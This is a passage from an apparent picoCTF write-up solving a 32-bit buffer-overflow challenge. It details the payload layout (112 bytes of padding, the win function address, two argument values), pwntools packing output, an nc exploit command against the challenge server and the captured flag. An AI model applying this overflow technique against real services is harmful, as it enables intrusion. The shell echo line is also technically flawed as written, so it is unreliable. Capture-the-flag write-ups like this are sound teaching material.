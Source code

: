 1. 112 bytes of padding.

2. 4 bytes of `win` function address (`0x0804929a`).

3. 4 bytes of padding.

4. 4 bytes of correct value of `arg1` (`0xCAFEF00D`).

5. 4 bytes of correct value of `arg2` (`0xF00DF00D`).

```terminal
>>> from pwn import *
>>> 'A'*112
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
>>> p32(0x0804929a)
>>> 'A'*4
'AAAA'
>>> p32(0xCAFEF00D)
b'\r\xf0\xfe\xca'
>>> p32(0xF00DF00D)
b'\r\xf0\r\xf0'
```

5. Exploit

```terminal
$ echo 'A'*112 + '\x9a\x92\x04\x08' + 'A'*4 + '\r\xf0\xfe\xca\r\xf0\r\xf0' | nc saturn.picoctf.net 51896
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�AAA���
picoCTF{argum3nt5_4_d4yZ_27ecbf40}
```

## Conclusion
The buffer overflow allowed us to overwrite the return address and pass specific arguments to the win function, successfully exploiting the vulnerability to retrieve the flag.

